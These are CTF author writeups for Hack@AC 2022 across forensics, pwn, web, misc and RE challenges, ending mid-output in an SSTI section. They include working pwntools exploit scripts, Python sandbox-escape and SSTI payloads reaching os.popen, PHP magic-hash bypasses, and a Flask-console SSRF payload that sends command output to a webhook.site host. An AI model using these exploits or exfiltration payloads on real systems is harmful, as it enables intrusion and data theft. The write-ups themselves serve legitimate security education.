


# Author writeups for Hack@AC 2022

## Sections

[Crypto](#crypto)

[Forensics](#forensics)

[Misc](#misc)

[Pwn](#pwn)

[RE](#re)

[Web](#web)

---

## Crypto

## Forensics

### Alluring Bytes

>"Magic is alluring." ~ Grand Pabbie
>
>Buck, Chris, and Jennifer Lee. Frozen II. Walt Disney Studios Motion Pictures, 2019.
>
>Author: Jodie

The trailing bytes show IEND, which is the trailing header for PNG files. The apparent JPG headers and file extension must be fixed, the first 16 bytes have been changed, so the entire 16 must be edited according to a PNG header. Example online hex editor is https://hexed.it/. Some people only fixed the first 8, this would still show the file as corrupted. PNG is a common file format in CTFs for magic byte related challs, with a PNG...IDHR header and IEND trailing header to indicate the end of file.

Flag: `ACSI{w1th0ut_y0u_sh3_m4y_l05e_h3r5elf}`

### Exposed Credentials

>We captured some network traffic of some chemistry fan.
>Give us his username and password so we can login to the same server.
>We don't know at all how to use this thing/software called "wireshark".
>Thanks a lot.
>
>Author: Reyes

After opening with wireshark, scrolling through, we see some FTP `user` and `pass` information, hence we filter by `ftp` and `follow TCP stream (ctrl+alt+shift+t)` of the `USER` packet.

```
220 ProFTPD Server (000webhost.com) [::ffff:145.14.144.214]
OPTS UTF8 ON
500 OPTS UTF8 not understood
USER dihydrogenmonoxide
331 User dihydrogenmonoxide OK. Password required
PASS sodiumchloride
230-Your bandwidth usage is restricted
230 OK. Current restricted directory is /
QUIT
221-Goodbye. You uploaded 0 and downloaded 0 kbytes.
221 Logout.
```

Flag: `ACSI{dihydrogenmonoxide_sodiumchloride}`

### Memdump Part 1

> Could you find what website was visited? There is a plugin for volatility that will allow us to extract chrome history Perhaps it might give us something useful...  
> 
> Wrap the string you find with the ACSI{...} flag format.  
>
> Author: Samuel

The challenge tells us to wrap the string in the flag format. This suggests that it is not possible to grep the flag format directly from the memdump. Nonetheless, the challenge tells us quite clearly to use the `chromehistory` plugin to obtain the history. That will lead to the [pastebin link](https://pastebin.com/iC9nKd3s) containing the flag.

Flag: `ACSI{i_can_see_your_history}`

### Memdump Part 2

> Help me find what was typed in notepad! Start off by analysing running processes.
> 
> Author: Samuel

One way to solve this will be by dumping the notepad process and obtaining the flag from there. Or more simply, just run `strings -n 10 | grep -A 10 -B 10 ACSI`, which will reveal the flag.

Flag: `ACSI{notepad_task_failed_successfully}`


### switch!

> **Hard challenge!**
> 
> We captured the spy that infiltrated our base and managed to extract some data from the device found on him. Do you mind helping us investigate?
> 
> Hint: A clue revolves around safari, but you will need a parser.
> 
> Author: Samuel

For this challenge, we are given a dump of an iOS system. We can start off by analysing locations which may provide valuable information. Possible locations include safari (which the hint points to). We can find safari history's `.db` file under `/var/mobile/Library/Safari`, and see that there is a visit to a google docs page. However, upon trying to access this link, we realise that we do not have read access. 


Assuming that this google docs page will help us find the flag, we need to find an alternative way of discovering the contents of this page. The hint and challenge title are useful here, as it points to a parser being needed, as well as something about a "switch". What it was refering to was the `.ktx` file. When an iPhone or iPad user 'switches' from one application to another, or returns to their home screen from an application, their device creates a KTX file. The KTX file is an exact copy of the user's screen at the time they switched applications. When the user switches back to a previously-opened application, their device first loads the KTX file it created as the user switched away. This provides the user with a smooth visual transition as their device finishes re-loading the actual application. This can be exploited by forensic investigators, as we can examine users' KTX files for evidence of what a user was doing at specific times. We can make use of [this](https://github.com/ydkhatri/MacForensics/blob/master/IOS_KTX_TO_PNG/ios_ktx2png.py) handy dandy script to parse the data.

These snapshots can be located at (but not limtied to) the following locations:
```
/private/var/mobile/Library/Caches/Snapshots/<bundleID>/<bundleID>/
/private/var/mobile/Containers/Data/Application/<ApplicationUUID>/Library/Caches/Snapshots/<bundleID>
```

In our case, we can find it at `\private\var\mobile\Containers\Data\Application\9EF3AC7C-109C-40B7-B6F6-54FAD900E52F\Library\SplashBoard\Snapshots\sceneID:com.apple.mobilesafari-ABC784B4-8CBB-4CFA-8F9C-069FA7048541\`. Running it through the parser will give us the image below, which gives us a password.


Using [this](https://github.com/abrignoni/iOS-Snapshot-Triage-Parser) tool, we can also locate other `.ktx` files since we know now that it might provide other clues.


True enough, we find another `.ktx` which shows a suspicious note, suggesting to us to investigate the apple notes app. We can find `NoteStore.sqlite`, which should contain the note in question, under `\private\var\mobile\Containers\Shared\AppGroup\6141E240-98AC-4B8B-BC47-84F064E9E538\`. This time making use of [another parser](https://github.com/threeplanetssoftware/apple_cloud_notes_parser) to extract the note with the password obtained in the previous section, we can finally obtain the flag for the challenge.

```
vagrant@ctf-box:~/apple_cloud_notes_parser$ ruby notes_cloud_ripper.rb -p /ctf-shared/ -w passwords.txt

Starting Apple Notes Parser at Wed Aug 24 14:32:55 2022
Storing the results in ./output/2022_08_24-14_32_55

Created a new AppleBackup from physical backup: /ctf-shared/
Guessed Notes Version: 14
Guessed Notes Version: 8
Added 1 passwords to the AppleDecrypter from passwords.txt
Updated AppleNoteStore object with 2 AppleNotes in 2 folders belonging to 1 accounts.
Updated AppleNoteStore object with 0 AppleNotes in 1 folders belonging to 1 accounts.
Adding the ZICNOTEDATA.ZPLAINTEXT and ZICNOTEDATA.ZDECOMPRESSEDDATA columns, this takes a few seconds

Successfully finished at Wed Aug 24 14:32:55 2022
```

Flag: `ACSI{i05_tri4ge_4_lif3}`

## Misc

### Church of Emacs

> halp hoaw 2 eksit vim :<  
>
> Author: Lucas

---

This challenge is meant to be a simple challenge that demonstrates the ability to get RCE even in one-liners. The
exploit is simple, based on the built-in `__import__`.

```py
print(__import__('os').popen('cat flag.txt').read())
```

Flag: `ACSI{vivivi}`

### Cult of vim

> **Hard challenge!**
>
> I thought exiting Vim was hard enough... now I can't even exit Python??  
>
> Your goal is to get a shell, good luck!  
>
> Author: Lucas

--- 

Now, we don't have access to any built-ins at all, not even `exit` or `__import__`! In addition, there is a blacklist on
numbers in our input... I wonder why?

To solve the built-ins issue, we need to learn about Python object hierarchy. In Python, everything is an object,
including seemingly simple things like strings and integers. This means that they all inherit from a base class which
can be accessed if we have access to the object itself.

Try this in your Python shell:

```py
''.__class__
''.__class__.__base__
''.__class__.__base__.__subclasses__()
''.__class__.__base__.__subclasses__()[137].__init__.__globals__
''.__class__.__base__.__subclasses__()[137].__init__.__globals__['popen']('ls').read()
''.__class__.__base__.__subclasses__()[137].__name__
```

1. The string is of `<class 'str'>`
2. `<class 'str'>` inherits from `<class 'object'>`
3. `<class 'object'>` can access a list of subclasses, including a notable `<class 'os._wrap_close'>`, which comes from
   the `os` module! On my system, this class is at index 137: try to find out what index it is on your system.
4. I can access the global namespace of the `os._wrap_close` function. This is significant as it allows me to jump to
   other functions like `popen`, which grants me RCE.
5. This payload will allow me to get RCE.
6. I can also access the name of the class (`"_wrap_close"`)

Now we have our target! However, we can't input any numbers, so how do we access the index of `<class 'os._wrap_close'>`?

We can use dictionary comprehension to convert the list into a dictionary and access the class by something that doesn't
require numbers, like its name. Here is the full payload:

```py
{x.__name__: x for x in ''.__class__.__base__.__subclasses__()}['_wrap_close'].__init__.__globals__['popen']('cat flagcddecddecddecddecddecddecddecdde.txt').read()
```

Flag: `ACSI{:q_was_easier...}`

## Pwn

### Banana overflow

> Just read about this thing called "Integer Overflow", I wonder if it's dangerous? I've set up a banana-money-printing machine to test this out.
>
> Author: Lucas

---

By inputting 2147483647 and then 1 a few times, your balance will overflow into positive.

This challenge was supposed to be an integer overflow challenge, but I didn't restrict the input and hence you could
easily solve it by just inputting characters... oops.

Flag: `ACSI{w4w_i_jus7_h4ck3d_0cbc}`

### Format String

> Format string vulnerabilities are extremely potent in binary exploitation. With a simple mistake, an attacker can achieve both
> arbitrary read and write! But this program doesn't allow us to write to any memory region we like, so we can't repoint a
> function call to `system('/bin/sh')` in the GOT ... Is it unsolvable??
> 
> Note that you might need to write a fuzzer for this challenge.
> 
> Author: Lucas

---

The title already tells you this is a format string exploit challenge. When you allow user input to be passed into
`printf()`, the result is an arbitrary read and arbitrary write. I won't go into details about the arb write, since it's
not applicable in this challenge. 

How do we perform arbitrary read? Try inputting `hello world` into the program. Then try `%1$s`. You'll notice that the
output is not the string you entered! This is because we're now reading the first argument passed into `printf`. You
might wonder how this works since `printf` has no arguments. Well, in x64 convention, the first 6 arguments of a
function are found in registers `RDI, RSI, RDX, RCX, R8, R9` respectively. Any subsequent arguments are read off the
stack.

With this, we can read almost anything we want if we know the offset (the number after %). I wrote a
[tool](https://github.com/samuzora/ffuzzer) which currently only supports local fuzzing. Note that these offsets differ
on local and remote, so let's skip my tool and fuzz on remote.

```py 
from pwn import *
import time

elf = context.binary = ELF('./ffuzzer')
context.log_level = "error"
rop = ROP(elf)

#p = process()
p = remote('alpha.8059blank.ml', 3002)
#input()

for i in range(1, 300):
    p = remote('0.0.0.0', 3002)
    time.sleep(0.2)
    p.clean()
    p.sendline(f"%{i}$p")
    try:
        canary = int(p.recvline().strip()[2:], 16)
        print(f'{hex(canary)} {i}')
    except:
        print(f'error {i}')
    p.close()
```

Similar to RPS 2.0, we need the canary and PIE offset. Canary can be identified with `0x...00`, and PIE with `0x55...`.

After we've found 2 suitable offsets, we can write our exploit:

```py 
from pwn import *
import time

elf = context.binary = ELF('./formatstring')
rop = ROP(elf)

#p = process()
p = remote('alpha.8059blank.ml', 3002)
#input()

# find canary
time.sleep(1)
p.clean()
p.sendline("%39$p")
canary = int(p.recvline().strip()[2:], 16)
print(hex(canary))

# find pie
p.clean()
p.sendline("%40$p")
pie = int(p.recvline().strip()[2:], 16) - elf.symbols.__libc_csu_init
print(hex(pie))
print(hex(pie + elf.symbols.win))

# rop
payload = flat(
    b'A' * 264,
    canary,
    b'A'*8,
    pie + rop.ret.address,
    pie + elf.symbols.win,
)
p.sendline(payload)
p.interactive()
```
Alternate solution:
```py
from pwn import *
context.log_level='debug'

HOST = "alpha.8059blank.ml"
PORT = 3002
p = remote(HOST, PORT)
BINARY = './formatstring'
elf = context.binary = ELF(BINARY)
#p = process(BINARY)

p.sendlineafter("Let's leak the PIE offset first.\n", flat("%45$p"))
pie_main = int(p.recvline(keepends=False),16)

log.info(f"pie main at {hex(pie_main)}")
log.info(f"main symbol at {hex(elf.sym.main)}")
elf.address = pie_main - elf.sym.main
log.success(f"pie at {hex(elf.address)}")

p.sendlineafter("How about the canary?\n", flat("%39$p"))
canary = int(p.recvline(keepends=False),16)
log.success(f"canary is {hex(canary)}")

rop = ROP(elf)
p.sendlineafter("Now you've got everything you need!", flat(
        b"A"*264,
        canary,
        b"A"*8,
        rop.ret.address,
        elf.sym.win
))
p.interactive()
```

Flag: `ACSI{h0p3_u_l1k3_1t_uwu_owo}`

### Ret2Arendelle

>Disaster strikes when Anna's hair turns white!
>Guide Kristoff and Sven to the place of home,
>Point him to where he ought to alight,
>Make haste before the soul turns frigid.
>
>Author: Jodie

Basic Ret2Win, offset 40, win() address given (arendelle) can be hardcoded. stack must be aligned with ret gadget for exploit `buffer + ret + arendelle`.

Solve Script:

```py
from pwn import *
context.log_level='debug'

p = remote('alpha.8059blank.ml', 3001)
elf = context.binary = ELF('./frozen')
rop = ROP('./frozen')

# given when program executes
arendelle = 0x401216
offset = 32 + 8 # rbp + 8, found in GDB

p.sendlineafter("Many paths lie ahead, but which path will be the Return to Arendelle?\n", flat(
        b"A"*offset,
        rop.ret.address, # necessary to align the stack
        arendelle
))

p.interactive()
```

Flag: `ACSI{w4rm_hug5}`

### RPS 2.0

> Rock Paper Scissors QOL Update, hope you like it~  
> 
> Author: Lucas

---

For this challenge, binary and source were given, as well as the rglddwapswthssf cheat sheet for reference. Let's take a
look at the source.

---

#### Analysing source

When we read through the source, we find this struct definition:

```c 
typedef struct choices {
  char choice[9];
} choices;
```

And it's used here:

```c 
    choices choices[15];
    memcpy(choices[0].choice, "Rock", 9);
    memcpy(choices[1].choice, "Gun", 9);
    memcpy(choices[2].choice, "Lightnig", 9);
    memcpy(choices[3].choice, "Devil", 9);
    memcpy(choices[4].choice, "Dragon", 9);
    memcpy(choices[5].choice, "Water", 9);
    memcpy(choices[6].choice, "Air", 9);
    memcpy(choices[7].choice, "Paper", 9);
    memcpy(choices[8].choice, "Sponge", 9);
    memcpy(choices[9].choice, "Wolf", 9);
    memcpy(choices[10].choice, "Tree", 9);
    memcpy(choices[11].choice, "Human", 9);
    memcpy(choices[12].choice, "Snake", 9);
    memcpy(choices[13].choice, "Scissors", 9);
    memcpy(choices[14].choice, "Fire", 9);
```

So, each item in the array `choices` is guaranteed to be 9 bytes long. 

(Why 9? It's the easiest to read the canary, since the canary is 8 bytes long. Also, with this magic number the canary can be leaked in 1 read, which is so nice of me)

In the tutorial, you might notice this bit:

```c 
    gets(inp);
    user = atoi(inp) - 1;
    printf("You chose %s\n", choices[user].choice);
    
    if ((user < 0) || (user > 14)) {
      puts("What are you doing? let's try this again.");
      goto restart;
    } 
```

The check for `user` being in-bounds is after we read our value. Hence, we can achieve array OOB and arbitrary read. This is the first vuln.

The second vuln should be pretty obvious, it's a basic buffer overflow. However, the catch is that you need to win all 5 games as well as the tutorial to get to `return 0`, which only then allows us to overwrite RIP. This is the fun part :)

---

After this, exploitation is quite straightforward. First, we need to fuzz our arbitrary read for canary and PIE leaks.
Here's the script I used:

```py 
import time
from pwn import *

elf = context.binary = ELF('./rps2')
rop = ROP(elf)
p = remote('alpha.8059blank.ml', 3000)

moves = [ "Rock", "Gun", "Lightnig", "Devil", "Dragon", "Water", "Air", "Paper", "Sponge", "Wolf", "Tree", "Human",\
"Snake", "Scissors", "Fire"]

def i_win():
    p.recvuntil(b'I choose ')
    bot = moves.index(p.recvline().strip().decode())
    me = str((bot + 2) % 15 + 1).encode()
    return me

p.clean()
p.sendline("-183")
p.recvuntil(b'You chose ')
print(hex(u64(p.recvline().strip().ljust(8, b'\x00'))))

# find canary
# canary should be +ve offset since it protects the stack from overflow.
# canary will look like 0x9184c574d15100
for i in range(0, 67):
    try:
        time.sleep(0.1)
        p.sendline(str(i))
        p.recvuntil(b'You chose ')
        print(hex(u64(p.recvline().strip()[:-1].rjust(8, b'\x00'))), i)
        p.clean()
    except:
        continue

# find pie
# pie should be -ve offset since memory regions that refer to it are usually before the stack.
# pie leak will look like 0x55bdd2a00970
for i in range(-300, 0):
    try:
        time.sleep(0.1)
        p.sendline(str(i))
        p.recvuntil(b'You chose ')
        print(hex(u64(p.recvline().strip().ljust(8, b'\x00'))), i)
        p.clean()
    except:
        continue
```

```
0x3100000000000000 17
0x9184c574d1510000 18
0x0 19
...
0x0 -32
0x55bdd2a00970 -31
0x0 -30
```

Above are the leaked canary and PIE offsets, with the PIE being that of entry0, whose offset is 0x970. For the canary we
may read it wholesale, but for the PIE base we should subtract 0x970 from the leaked offset.

To win the game is quite trivial, just reverse the check done in the program to always be able to win.

```py 
from pwn import *

elf = context.binary = ELF('./rps2')
rop = ROP(elf)
#p = process()
#input()
p = remote('alpha.8059blank.ml', 3000)

moves = [ "Rock", "Gun", "Lightnig", "Devil", "Dragon", "Water", "Air", "Paper", "Sponge", "Wolf", "Tree", "Human",\
"Snake", "Scissors", "Fire"]

def i_win():
    p.recvuntil(b'I choose ')
    bot = moves.index(p.recvline().strip().decode())
    me = str((bot + 2) % 15 + 1).encode()
    return me

# How to obtain this index? 
# run fuzzer.py, look for the first value OUTSIDE of ur array that ends with 00. these usually indicate canaries which
# always end with 00. Note that it should be very close to the end of your array.
p.clean()
p.sendline("18")
p.recvuntil(b'You chose ')
canary = u64(p.recvline().strip().rjust(8, b'\x00'))
print(hex(canary))


# How to obtain this index? 
# run fuzzer.py, look for the first value that has 0x55 or 0x56. these usually indicate PIE addresses since PIE always
# starts with 0x55 or 0x56.
# there's another one at -183, but -31 is easier to use cos -183 points to unknown addr 
p.sendline("-31")
p.recvuntil(b'You chose ')
pie = u64(p.recvline().strip().ljust(8, b'\x00'))
print(hex(pie))

# shld be 0x55...970

pie = pie - 0x970
print(hex(pie))
print(hex(pie + elf.symbols.win)) # we want this :)

# clear tutorial
p.sendline(i_win())

p.sendline(i_win())
p.sendline(i_win())
p.sendline(i_win())
p.sendline(i_win())
win = i_win()
payload = flat(
    win + b'A'*(8 - len(win)),
    canary,
    b'A'*8,
    pie + rop.ret.address, # movaps issue - ask in discord if not sure what this is
    pie + elf.symbols.win,
)
print(payload)
p.sendline(payload)
p.interactive()

```

The above exploit script will get the flag `ACSI{sp0nge_b3ats_gun_a46h01}`.

## RE

### Ancient Ape

> The vault to the ancient treasures is guarded by an Ape. He only speaks Dart for some reason.
> 
> Author: Samuel

We are given an AOT (ahead-of-time) snapshot, and the challenge description tells us that it is written in Dart. Running the snapshot with `dartaotruntime` will give us this:


The runic characters translate to `"gimme banana or i punch you"`, which suggests that there is some sort of string compare fuction to check for the correct banana (flag). Time throw it into our decompiler.


Under the flag fuction, we see some hex values, the first five translating to "‚†¦’ö". Doesn't seem like our flag...

Upon doing further research on how the Dart VM handles object references, we find out from [dart documentation](https://dart.dev/articles/archive/numeric-computation#integers-1) that:

>The first representation, smi, is the same size as a pointer on your platform, minus 1 bit. On a 32-bit machine, a smi holds a 31-bit signed integer. On a 64-bit machine, a smi holds a 63-bit signed integer. A smi doesn’t require a memory allocation to be created and is stored directly in a field. The VM can do this by storing twice the numeric value, guaranteeing the low bit being 0. For all other objects (including boxed doubles, mints, and bigints), the low bit will be 1. The VM uses this low bit to distinguish between smis and all other objects.
>
>Because the stored smi is twice the numeric value, the value must be right shifted by 1 before operated on; this is called untagging. Conversely, after being operated on the value must be added with itself (equivalent of a multiplication by 2); this is called tagging. Despite these extra operations, a smi is very efficient because it never requires a memory allocation and all accesses are direct, avoiding dependent loads. Note that many common operations—for example, addition—do not require the smi to be untagged.

Essentially what we are looking at here is small integer (smi) encoding, which is is an implementation detail of how the VM represents object references internally.

Normally an object reference is a pointer to a heap-allocated object structure.

However, to save space and time, the Dart VM internally represents small integers directly as a specially formatted (tagged) reference, instead of them being pointers to heap objects. (In a 64-bit VM, "small" integers are actually all integers that can be stored in 63 bits.)

The representation of a small integer is precisely the integer shifted left by one, aka. multiplied by two, with a zero in the zeroth bit. This has the advantage that adding or subtracting smis can be done directly on the tagged values, as long as it doesn't overflow.

All references to heap objects instead have the zeroth bit set to 1. Accessing members of an object is done by indexing relative to the object reference anyway, so it doesn't cost extra to use an offset of n - 1 instead of n.

With this in mind, we can simply half all the hex values before converting them, which will then give us our flag.

Flag: `ACSI{1M4G1n3_progR4mm1ng_W17H_D4r7_4nd_NO7_B31ng_4bL3_7o_u5e_MUl71pl3_1NH3r174Nc3_:(((((}`


### Imitation  

>Someone sent you this file with an enigmatic message attached:
>
>}-th{_3d0ar@sCI1Anc4RSlHNP  
>ABCDEFGHIJKLMNOPQRSTUVWXYZ  
>
>Author: Elijah

Writeup [here](https://hackmd.io/@RTiPfWohT42qK7LIpPfl6Q/HkfVNuz4j)

## Web

### Fatherboat v2.0

#### 1000 points - 0 solves

> **Hard challenge!**
>
> Last year kenna hacked liao, this year I hired a better dev to make my website! Maybe now can compete with Mothership...
>
> Author: Lucas

--- 

For this challenge, the entire Docker deployment config is provided, so you should try and run the application locally.
The templates weren't included, but they're not necessary to solve the challenge.

Let's take a look at app.py:

```py
@app.route('/sharelobang', methods=["GET", "POST"])
def visit():
    if request.method == "GET":
        return render_template("share.html")
    else:
        if url := request.form.get('url'):
            if urlparse(url).netloc != "localhost:5000":
                return Response('eh this one not from our site... from mothership isit??', status=400)
            thread = Bot(url)
            thread.start()
            return Response('Thanks ah!', status=200)
        return Response('Why liddat', status=400)
```

This route seems to allow us to perform SSRF to other pages on the site. Hmm.. but what page would need SSRF? Let's take
a look at bot.py:

```py
    # unimportant backend initlization pls ignore
    console = requests.get('http://localhost:5000/console').content.decode()
    secret = re.search('SECRET = "(.*)"', console).group(1)
    driver.get(f'localhost:5000/console?__debugger__=yes&cmd=pinauth&pin={pin}&s={secret}')

    # +----------------------+
    # | Visits your URL!!!!! |
    # +----------------------+

    driver.get(self.url)
    time.sleep(100)
```

So the bot visits /console and obtains a secret, then authenticates itself with the pin and the secret. Afterwards, it
finally visits the URL that you provide it.

If we do a quick Google, /console for Flask apps is the admin panel that allows a user to run arbitrary Python code.
However, it's locked behind a pin that only the bot knows, and we don't have access to it. However, if you run the app
locally, you can see that each line of code you run is sent in a HTTP request to the server, with a special identifier
cookie and the secret in the query string. 

Running the app locally:

```
docker build -t fatherboat .
docker run fatherboat -p "5000:5000"
```

Once the app builds, you should see a pin printed. Navigate to <http://localhost:5000/console> and enter in the
debugger pin to gain access. When you enter `print('hello world')` into the Python shell, you should see a request like
this:



The command you executed is put directly in the query string, along with the secret and a few other parameters. You also
have a cookie that identifies you as already authenticated, so you don't need to re-enter the pin.

Using these, you can see that RCE is possible via the SSRF. But first, you need to get the secret so you can exploit the
SSRF.

Back to the remote application, navigate to /console. Look through the response and you will find the secret:



Our base SSRF URL will look like this:
`http://localhost:5000/console?__debugger__=yes&s=LGoQoeWW26q97hcsoW5Y&frm=0&cmd=`

To achieve RCE, just URL-encode your payload and append it to the end of the URL.

```
// import os; import requests
http://localhost:5000/console?__debugger__=yes&s=LGoQoeWW26q97hcsoW5Y&frm=0&cmd=import%20os%3B%20import%20requests

// requests.get(f'https://webhook.site/0433eafd-89e6-4a5a-b2e5-636685144500?o={os.popen("ls").read()}')
http://localhost:5000/console?__debugger__=yes&s=LGoQoeWW26q97hcsoW5Y&frm=0&cmd=requests.get%28f%27https%3A%2F%2Fwebhook.site%2F0433eafd-89e6-4a5a-b2e5-636685144500%3Fo%3D%7Bos.popen%28%22ls%22%29.read%28%29%7D%27%29

// requests.get(f'https://webhook.site/0433eafd-89e6-4a5a-b2e5-636685144500?o={os.popen("cat flag.txt").read()}')
http://localhost:5000/console?__debugger__=yes&s=LGoQoeWW26q97hcsoW5Y&frm=0&cmd=requests.get%28f%27https%3A%2F%2Fwebhook.site%2F0433eafd-89e6-4a5a-b2e5-636685144500%3Fo%3D%7Bos.popen%28%22cat%20flag.txt%22%29.read%28%29%7D%27%29
```

### How is this possible? Magic?!

>How is this possible? You don't allow a particular password but want the hashes to match? Sigh there must be some black magic going on here...  
>
> Author: Reyes

```php
<?php
    ini_set('display_errors', FALSE);
    include 'lib.php';
    $password = "RSnake33ncxYMsiIgw";
    if ($_GET["pass"] == $password){
        echo "Sorry, that's the right password. But you'll have to find a way to bypass this check.";
    }
    elseif (hash("sha1", $password) == hash("sha1", $_GET["pass"])){
        echo $flag;
    }
    else {
        echo "You got this! This should be a fun and easy web challenge!";
    }
    show_source(__FILE__);
?>
```

Reading the code, we find that our supplied password cannot be the same as `RSnake33ncxYMsiIgw`, yet it wants the SHA1 hashes to match. The word `magic` is a hint. Looking online for `php magic hash vulnerability`:
https://www.whitehatsec.com/blog/magic-hashes/  
https://offsec.almond.consulting/super-magic-hash.html  

> Magic hashes are well known specific hashes used to exploit Type Juggling attacks in PHP. Combined with bcrypt limitations, we propose the concept of Super Magic Hashes. These hashes can detect 3 different vulnerabilities: type juggling, weak password storage and incorrect Bcrypt usage. A Go PoC found some MD5, SHA1 and SHA224 super magic hashes.  

> Type Juggling issues in PHP and Magic Hashes are known since at least 2014. As a quick reminder, in PHP two strings matching the regular expression 0+e[0-9]+ compared with == returns true:
`'0e1' == '00e2'== '0e1337' == '0'`  
Indeed all these strings are equal to 0 in scientific notation.

`RSnake33ncxYMsiIgw:00e0446570916533934353629798824448898569`
https://github.com/spaze/hashes/blob/master/sha1.md  
Using this list of known texts producing SHA1 hashes starting with `0e` or `00e`, we can pick any other one and submit it for the flag:  

Eg. http://alpha.8059blank.ml:4001/?pass=aaroZmOk
where `aaroZmOk:0e66507019969427134894567494305185566735`

Flag `ACSI{un0r1gin4l_ch4llang3s_ar3_wh4t_1_am_b35t_at}`

### SSTI

>I only talk to smart ppl (not you)  
>(also only smart ppl can execute the binary)  
>
>Author: Lucas

Clearly, the challenge is about `Server Side Template Injection`. We enter `{{7*7}}` and by returning 49, this confirms the site is indeed vulnerable to SSTI. Since there is no files provided, I assume we need to achieve RCE and explore the server.

https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

Reading through that beautiful article:
> The MRO in `__mro__` stands for Method Resolution Order, and is defined as, “a tuple of classes that are considered when looking for base classes during method resolution.” The `__mro__` attribute consists of the object’s inheritance map in a tuple consisting of the class, its base, its base’s base, and so on up to object (if using new-style classes).

> The `__subclasses__` attribute is defined as a method that “keeps a list of weak references to its immediate subclasses.” for each new-style class, and “returns a list of all those references still alive.”

> Greatly simplified, `__mro__` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. So what’s the impact on the search for a greater exploit for SSTI in Flask/Jinja2? By starting with a new-type object, e.g. type str, we can crawl up the inheritance tree to the root object class using `__mro__`, then crawl back down to every new-style object in the Python environment using `__subclasses__`. Yes, this gives us access to every class loaded in the current python environment. So, how do we leverage this newfound capability?

1. Starting with `{{''.__class__}}`, the class of an empty string, it returns `<class 'str'>`
2. Next, injecting `{{ ''.__class__.__mro__ }}`, gives us `(<class 'str'>, <class 'object'>)`
3. Since we want to go back to the root object class, we’ll leverage an index of 1 to select the `class of type 'object'`. Now that we’re at the root object, we can leverage the `__subclasses__` attribute to dump all of the classes used in the application. Inject `{{ ''.__class__.__mro__[1].__subclasses__() }}` into the SSTI vulnerability.

<details>
  <summary>Output</summary>
  <p> 
   
    [<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>, <class 'mappingproxy'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'wrapper_descriptor'>, <class 'method-wrapper'>, <class 'ellipsis'>, <class 'member_descriptor'>, <class 'types.SimpleNamespace'>, <class 'PyCapsule'>, <class 'longrange_iterator'>, <class 'cell'>, <class 'instancemethod'>, <class 'classmethod_descriptor'>, <class 'method_descriptor'>, <class 'callable_iterator'>, <class 'iterator'>, <class 'pickle.PickleBuffer'>, <class 'coroutine'>, <class 'coroutine_wrapper'>, <class 'InterpreterID'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'BaseException'>, <class 'hamt'>, <class 'hamt_array_node'>, <class 'hamt_bitmap_node'>, <class 'hamt_collision_node'>, <class 'keys'>, <class 'values'>, <class 'items'>, <class 'Context'>, <class 'ContextVar'>, <class 'Token'>, <class 'Token.MISSING'>, <class 'moduledef'>, <class 'module'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class 'classmethod'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, <class '_io.IncrementalNewlineDecoder'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class 